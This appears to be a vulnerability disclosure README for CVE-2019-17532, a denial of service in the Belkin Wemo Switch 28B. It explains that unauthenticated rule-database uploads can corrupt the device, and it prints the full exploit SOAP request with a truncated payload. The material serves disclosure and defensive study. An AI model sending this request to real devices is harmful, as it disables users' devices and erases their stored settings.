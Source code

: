 # DoS Vulnerability in the Wemo Switch 28B (CVE-2019-17532)

The Wemo Switch is a smart socket developed by Belkin. In this blogpost, I consider the Wemo switch 28B, whereas the firmware version is WeMo_WW_2.00.11057.PVT-OWRT-SNS.

The way the rules are handled in the device's firmware allows an attacker to perform a DoS on the device and corrupt the database in a way that the app cannot recover, making the user unable to set/remove any rules.

In particular, the device stores rules in an internal database, which is sent by the app (in a compressed format), every time a rule is added (or removed). No authentication is required.

This repo contains the exploit to perform the DoS. As you can see, once the new database is accepted by the device, further rules from the app are not accepted, and the user must hard reset the device, losing all the information they previously stored.

Below, the generated HTTP request.

```
 POST /upnp/control/rules1 HTTP/1.1\r\n
    Host: 10.250.250.144:49153\r\n
    Accept: */*\r\n
    Content-Type: text/xml; charset="utf-8"\r\n
    SOAPACTION: "urn:Belkin:service:rules:1#StoreRules"\r\n
    User-Agent: CyberGarage-HTTP/1.0\r\n
    Content-Length: 1004\r\n
    <?xml
        version="1.0"
        encoding="utf-8"
        ?>
    <s:Envelope
        xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"
        s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
        <s:Body>
            <u:StoreRules
                xmlns:u="urn:Belkin:service:rules:1">
                <ruleDbVersion>
                    12
                    </ruleDbVersion>
                <processDb>
                    1
                    </processDb>
                <ruleDbBody>
                     [truncated]&lt;![CDATA[UEsDBBQAAAAIAIN6kEyxkTDHIgEAAADAAAASABwAdGVtcHBsdWdpblJ1bGVzLmRiVVQJAAOWIdValiHVWnV4CwABBOgDAAAE6AMAAO3Wu0rDYACG4T9tjba1WFwcumRU1MkbsEoXETwuTqVKBMUDar2zDt6JVyHi6uQvCEIFD4ux9nnCGxIC4cuWvZ3Nk36eHV9en/f62UpohiQJq1kWQmj
                    </ruleDbBody>
                </u:StoreRules>
            </s:Body>
        </s:Envelope>
 ```
